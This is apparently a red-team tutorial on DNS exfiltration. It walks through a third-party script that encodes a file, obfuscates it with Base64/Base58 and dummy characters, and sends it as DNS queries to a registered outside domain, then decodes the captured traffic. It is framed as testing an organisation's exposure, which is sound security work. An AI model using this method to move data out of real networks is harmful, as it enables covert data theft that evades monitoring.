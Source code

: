 # DNS Exfil/Infil/Tunneling

**Description**
This falls more under Red Team/Purple Team activities to determine if your company is vulnerable to these types of attacks. DNS is commonly allowed in most organizations and attackers abuse this fact to use it in a malicious manner
## DNS Exfil
1. To start, grab the scripts found here:  https://github.com/kleosdc/dns-exfil-infil 
2. CD into the directory then do: pip3 install -r requirements.txt

In this directory you will see a file called securecorp.txt  https://github.com/kleosdc/dns-exfil-infil/blob/main/securecorp.txt
This will be the file we want to exfil out. Next you would need to register a domain, so that the DNS can be used. For me I created one with GoogleDomains, let's say its called wingnut.com. 

First let's run this command from the script in that directory:
```
python3 packety.py
```
1. This will first ask for a name of a file, in this case it will be the securecorp.txt one. 
2. Next it will ask for a domain, here I put wingnut.com. What the script will do is Base58 encode it then Base64 encode it. This is so it can fit in the domain name portion of the DNS request we will send. 
3. It will ask you if you want to start, and you can hit enter. (If you want to monitor the traffic to see what the requests look like, you can use something like tshark. I made an empty file called secret-credit-cards.pcap, did a chmod 666 on it then ran tshark -i eth0 -w secret-credit-cards.pcap)
4. After you hit enter it will take a minute or so and show a progress. Once it has completed, you can review the traffic you caught in tshark if you used it to monitor the traffic.
A little background on what is going to happen with these scripts: The code starts off by reading from the text file. The text file's content will first be Base64 encoded and then Base58 encoded. This leaves us with a long encoded string. The string is then split into 20 character long sections where each section will have 3 'dummy' characters added to it for further obfuscation. One character will be prepended to the encoded string and two characters will be appended. For example, a section of the encoded data might look like this: '6gfghhjywsas3rg4hda3'. After the extra characters are added it will end up being 'x6gfghhjywsas3rg4hda3yu'.
Once everything is done, then we need to decode it and fortunately he has a script for that as well. Back in the terminal where you ran the packety.py script type:
```
python3 packetyGrabber.py
```
1. This will ask for a file name, you put in the pcap filename. 
2. Next it will ask you for a filename to save it as, we will call it goodies.txt
3. lastly it will ask you for the domain you used, which in our case was wingnut.com

The script will then Base58 Decode it, then Base64 Decode it. You will now have the goodies.txt file to look at and it should contain all the content that was in the securecorp.txt file. You have successfully exfiltrated the data using DNS


